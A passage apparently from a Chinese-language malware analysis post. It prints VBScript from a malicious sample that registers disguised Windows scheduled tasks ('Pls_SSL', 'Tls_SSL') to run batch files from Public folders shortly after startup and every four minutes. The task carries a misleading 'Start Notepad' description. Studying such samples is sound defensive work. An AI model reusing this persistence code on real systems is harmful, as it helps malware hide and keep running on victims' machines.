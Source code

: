 ```vb
trigger.ID = "TimeTriggerId"
trigger.Enabled = True

Dim Action
Set Action = taskDefinition.Actions.Create(ActionTypeExec)
Action.Path = "C:\Users\Public\Pictures\pbs.bat"
Call rootFolder.RegisterTaskDefinition( _
    "Pls_SSL", taskDefinition, 6, , , 3)
End Sub

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-c97a20bfd4c2f07fe7c204ea8dd5d7ed4fe51dbb.png)

#### zxcvbnmlkjhgfdsaqweryu 函数：

同样的创建计划执行任务，在开机启动 55 秒后，执行 C:\\Users\\Public\\Music\\pbs.bat 程序，创建的计划任务名是 Tls\_SSL。

```vb
Sub zxcvbnmlkjhgfdsaqweryu()
Const TriggerTypeTime = 1

Const ActionTypeExec = 0

Set service = CreateObject("Schedule.Service")
Call service.Connect

Dim rootFolder
Set rootFolder = service.GetFolder("\")

Dim taskDefinition

Set taskDefinition = service.NewTask(0)

Dim regInfo
Set regInfo = taskDefinition.RegistrationInfo
regInfo.Description = "Start Notepad at a certain time"
regInfo.Author = "Win"

Dim principal
Set principal = taskDefinition.principal

principal.LogonType = 3

Dim settings
Set settings = taskDefinition.settings
settings.Enabled = True
settings.StartWhenAvailable = True
settings.Hidden = False

Dim triggers
Set triggers = taskDefinition.triggers

Dim trigger
Set trigger = triggers.Create(TriggerTypeTime)

Dim startTime

Dim time
time = DateAdd("s", 55, Now)
startTime = XmlTime(time)

trigger.StartBoundary = startTime
trigger.Repetition.Interval = "PT04M"
```